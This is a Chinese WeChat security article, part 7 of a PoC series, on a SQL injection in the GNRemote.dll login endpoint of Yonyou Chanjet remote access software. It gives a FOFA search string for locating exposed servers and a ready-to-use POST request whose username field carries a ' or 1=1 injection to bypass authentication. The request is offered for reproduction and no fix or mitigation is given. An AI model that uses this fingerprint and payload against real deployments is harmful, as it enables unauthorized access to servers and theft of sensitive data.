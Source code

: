 #  知识分享7：用友 畅捷通远程通 GNRemote.dll SQL注入漏洞

[ 安全攻防渗透 ](javascript:void\(0\);)

**安全攻防渗透** ![]()

微信号 co01fire

功能介绍 信息安全领域原创公号，专注信安领域人才培养和知识分享，致力于帮助叁年以下信安从业者的学习和成长。

____

___发表于_

收录于合集

#用友 17 个

#网络安全 41 个

#漏洞分析 23 个

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230714174917.png)

点击上方“安全攻防渗透”关注我~

Tips **：用友Web应用漏洞_4** **\- 漏洞描述  -**用友 畅捷通远程通 GNRemote.dll
SQL注入漏洞，攻击者通过SQL注入从而获取服务器上的敏感信息，甚至可以通过注入恶意代码来控制设备。

 **-  影响范围 -**

用友 畅捷通远程通

 ** **\- FOFA  -****  

body="远程通CHANJET_Remote" **\- 漏洞复现 -**

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230714174918.png)

 **POC**

  *   *   * 

    
    
     POST /GNRemote.dll?GNFunction=LoginServer&decorator=text_wrap&frombrowser=esl  
    username=%22'%20or%201%3d1%3b%22&password=%018d8cbc8bfc24f018&ClientStatus=1

‍

 **抓包请求  
**

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230714174919.png)

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230714174920.png)

  

 ****end  
 **这就是【知识分享】 **文章系列** 第【7】篇：《用友 畅捷通远程通 GNRemote.dll
SQL注入漏洞》，如果你觉得本篇写得不错，或者这个系列值得关注，可以表达你的意见！**

 ** **-延伸阅读**** ** **-****

[知识分享：（Hvv行动专题）安全漏洞PoC专题预告](http://mp.weixin.qq.com/s?__biz=Mzg5NjU5NjA3Nw==&mid=2247483926&idx=1&sn=0155ab58b4edf3e5c6224501ce5d327b&chksm=c07fe314f7086a0248513e789f3592916f5e5927f53b45c14105b41d93e610f63d8e5812a3eb&scene=21#wechat_redirect)  
[](http://mp.weixin.qq.com/s?__biz=Mzg5NjU5NjA3Nw==&mid=2247483809&idx=1&sn=30b54e26a575c3057a87eec52d2774a4&chksm=c07fe0a3f70869b58be927c364f82cf70ab16c877c8a2aefdf22ff82184c6974e1168bfcad1c&scene=21#wechat_redirect)

[知识分享1：[CVE-2018-18778]ACME Mini_httpd
任意文件读取漏洞（Web服务器漏洞）](http://mp.weixin.qq.com/s?__biz=Mzg5NjU5NjA3Nw==&mid=2247483926&idx=2&sn=20616e5e03e5ddae7da29f39bdfca57f&chksm=c07fe314f7086a025cc29e513a2bd09282e97f6cc1adf5446fc21998e41935865202c73fffa6&scene=21#wechat_redirect)  

[知识分享2：攻击姿势大全](http://mp.weixin.qq.com/s?__biz=Mzg5NjU5NjA3Nw==&mid=2247483926&idx=4&sn=dab8afa931923f718fb5d88fecd23d30&chksm=c07fe314f7086a0271352e9f5da59569202646bd6c480f73aa91c179eac2a7fa306e8658f838&scene=21#wechat_redirect)

  
[](http://mp.weixin.qq.com/s?__biz=Mzg5NjU5NjA3Nw==&mid=2247483809&idx=1&sn=30b54e26a575c3057a87eec52d2774a4&chksm=c07fe0a3f70869b58be927c364f82cf70ab16c877c8a2aefdf22ff82184c6974e1168bfcad1c&scene=21#wechat_redirect)

  

 ** ** ** **-聆听你的声音**** ** **-********

 ** **         如果你有独到的想法和建议，欢迎私信与我一同分享！****

  

 ** ******

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230714174921.png)

  

  

  

  

预览时标签不可点

微信扫一扫  
关注该公众号

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。   视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看

